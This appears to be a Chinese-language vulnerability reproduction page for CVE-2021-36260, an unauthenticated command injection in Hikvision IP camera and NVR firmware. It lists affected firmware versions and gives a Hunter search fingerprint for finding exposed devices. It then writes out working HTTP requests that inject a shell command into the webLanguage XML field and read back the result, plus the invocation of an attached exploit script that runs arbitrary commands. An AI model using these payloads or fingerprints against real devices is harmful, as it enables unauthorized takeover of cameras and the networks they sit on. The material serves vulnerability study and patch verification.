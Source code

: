 # 海康威视IP摄像机/NVR设备固件远程代码执行漏洞(CVE-2021-36260)

# 一、漏洞简介
海康威视IP摄像机/NVR设备固件中发现一个未认证的远程代码执行漏洞（CVE-2021-36260）。漏洞影响IP摄像头和NVR设备固件，漏洞是因为对输入参数检验不充分，未经身份验证的攻击者通过构造恶意命令请求包发送到受影响设备，即可实现远程命令执行。

# 二、影响版本
+ <font style="color:rgba(0, 0, 0, 0.9);">易受攻击的网络摄像机固件。</font>

| **<font style="color:black;">产品类型</font>** | **<font style="color:black;">影响版本</font>** |
| :---: | :---: |
| <font style="color:black;">IPC_E0</font> | <font style="color:black;">IPC_E0_CN_STD_5.4.6_180112</font> |
| <font style="color:black;">IPC_E1</font> | <font style="color:black;">未知</font> |
| <font style="color:black;">IPC_E2</font> | <font style="color:black;">IPC_E2_EN_STD_5.5.52_180620</font> |
| <font style="color:black;">IPC_E4</font> | <font style="color:black;">未知</font> |
| <font style="color:black;">IPC_E6</font> | <font style="color:black;">IPCK_E6_EN_STD_5.5.100_200226</font> |
| <font style="color:black;">IPC_E7</font> | <font style="color:black;">IPCK_E7_EN_STD_5.5.120_200604</font> |
| <font style="color:black;">IPC_G3</font> | <font style="color:black;">IPC_G3_EN_STD_5.5.160_210416</font> |
| <font style="color:black;">IPC_G5</font> | <font style="color:black;">IPC_G5_EN_STD_5.5.113_210317</font> |
| <font style="color:black;">IPC_H1</font> | <font style="color:black;">IPC_H1_EN_STD_5.4.61_181204</font> |
| <font style="color:black;">IPC_H5</font> | <font style="color:black;">IPCP_H5_EN_STD_5.5.85_201120</font> |
| <font style="color:black;">IPC_H8</font> | <font style="color:black;">Factory installed firmware mid 2021</font> |
| <font style="color:black;">IPC_R2</font> | <font style="color:black;">IPC_R2_EN_STD_V5.4.81_180203</font> |


<font style="color:rgba(0, 0, 0, 0.9);">易受攻击的 PTZ 摄像机固件。</font>

| **<font style="color:black;">产品类型</font>** | **<font style="color:black;">影响版本</font>** |
| :---: | :---: |
| <font style="color:black;">IPD_E7</font> | <font style="color:black;">IPDEX_E7_EN_STD_5.6.30_210526</font> |
| <font style="color:black;">IPD_G3</font> | <font style="color:black;">IPDES_G3_EN_STD_5.5.42_210106</font> |
| <font style="color:black;">IPD_H5</font> | <font style="color:black;">IPD_H5_EN_STD_5.5.41_200911</font> |
| <font style="color:black;">IPD_H7</font> | <font style="color:black;">IPD_H7_EN_STD_5.5.40_200721</font> |
| <font style="color:black;">IPD_H8</font> | <font style="color:black;">IPD_H8_EN_STD_5.7.1_210619</font> |


<font style="color:rgba(0, 0, 0, 0.9);">易受攻击的旧固件。</font>

| **<font style="color:black;">产品类型</font>** | **<font style="color:black;">影响版本</font>** |
| :---: | :---: |
| <font style="color:black;">IPC_R7</font> | <font style="color:black;">5.4.x</font> |
| <font style="color:black;">IPD_</font><font style="color:black;">R7</font> | |
| <font style="color:black;">IPC_G0</font> | |
| <font style="color:black;">IPC_H3</font> | |
| <font style="color:black;">IPD_H3</font> | |


# 三、资产测绘
+ hunter`header="671-1e0-587ec4a1"`
+ 特征

![1700231990825-56e1158c-4918-4b47-a71e-0af9fcbfc673.png](./img/BRUyZKZO0-k6Y5uv/1700231990825-56e1158c-4918-4b47-a71e-0af9fcbfc673-137663.png)

# 四、漏洞复现
1. 执行命令，写入到文件中

```plain
PUT /SDK/webLanguage HTTP/1.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US,en;q=0.9,sv;q=0.8
Content-Length: 79

<?xml version="1.0" encoding="UTF-8"?><language>$(ifconfig>webLib/x)</language>
```

![1700232070419-9804d121-8b87-42e2-bb05-45566b0d57e5.png](./img/BRUyZKZO0-k6Y5uv/1700232070419-9804d121-8b87-42e2-bb05-45566b0d57e5-028165.png)

2. 获取命令执行结果

```plain
GET /x HTTP/1.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US,en;q=0.9,sv;q=0.8
```

![1700232088177-c92f2bcb-4980-4685-bbdf-38be1ec84437.png](./img/BRUyZKZO0-k6Y5uv/1700232088177-c92f2bcb-4980-4685-bbdf-38be1ec84437-357466.png)

利用脚本

[HIKVISION_CVE-2021-36260_rce.py](https://www.yuque.com/attachments/yuque/0/2024/py/1622799/1709222237457-6ffbdfa8-06b2-47c4-b0a5-0576e9fd5cda.py)

```plain
python HIKVISION_CVE-2021-36260_rce.py --rhost xx.xx.xx.xx --rport 8098 --cmd "ls -al"
```

![1700232671938-598342d8-9715-45cc-8ecf-477e359015aa.png](./img/BRUyZKZO0-k6Y5uv/1700232671938-598342d8-9715-45cc-8ecf-477e359015aa-640350.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ph37hx0zftramet9>